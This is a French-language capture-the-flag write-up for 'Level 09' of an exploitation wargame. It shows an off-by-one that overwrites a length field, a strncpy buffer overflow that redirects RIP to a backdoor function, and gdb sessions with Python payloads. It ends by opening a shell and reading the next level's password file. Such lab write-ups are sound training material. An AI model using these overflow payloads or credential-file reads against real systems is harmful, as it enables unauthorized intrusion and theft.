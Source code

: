 # Level 09

Quand on lance le programme, il nous demande un username et un message à envoyer.

En examinant le code on peut voir qu'il y a une structure contenant, l'`username` de 40 charactères, un `message` de 140 char, et un `message_len` ainsi qu'une fonction `secret_backdoor` qui get une commande et l'execute avec la fonction système.

Notre but est donc d'appeler la fonction `secret_backdoor`. Lors de la copie de l'username entré par l'utilisateur vers la variable de la structure, on peut voir qu'il copie 41 char au lieu de 40 ce qui nous permet de réecrire la variable `message_len` avec la valeur que nous voulons.

La variable `message` est un tableau de 140, notre message entrer dans stdin sera copier avec un strncpy de la taille `message_len`.

```c
strncpy(struct->message, buffer, struct->message_len);
```

En mettant une valeur plus grande dans la variable `message_len`, nous pouvons ainsi réecrire l'EIP et ainsi appeller notre fonction `secret_backdoor`.

```shell
~ gdb level09
(gdb) info func
All defined functions:

Non-debugging symbols:
[...]
0x000055555555488c  secret_backdoor
0x00005555555548c0  handle_msg
0x0000555555554932  set_msg
0x00005555555549cd  set_username
0x0000555555554aa8  main
(gdb) shell python -c 'print "B"*40 + "\xff" + "\n"' > /tmp/level09
(gdb) r < /tmp/level09
Starting program: /home/users/level09/level09 < /tmp/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
>>: >: Msg sent!
Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
(gdb) shell python -c 'print "B"*40 + "\xff" + "\n" + "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz"' > /tmp/level09
(gdb) r < /tmp/level09
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level09/level09 < /tmp/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
>>: >: Msg sent!
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) info registers
rax            0xd	13
rbx            0x0	0
rcx            0x7ffff7b01f90	140737348902800
rdx            0x7ffff7dd5a90	140737351867024
rsi            0x7ffff7ff7000	140737354100736
rdi            0xffffffff	4294967295
rbp            0x7878787877777777	0x7878787877777777
[...]
(gdb) shell echo -n "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxx" | wc -c
200
```

L'offest est donc de 200 pour réecrire l'`RIP`

```shell
~ python -c 'print "B"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "/bin/sh"' > /tmp/level09
~ cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBu
```

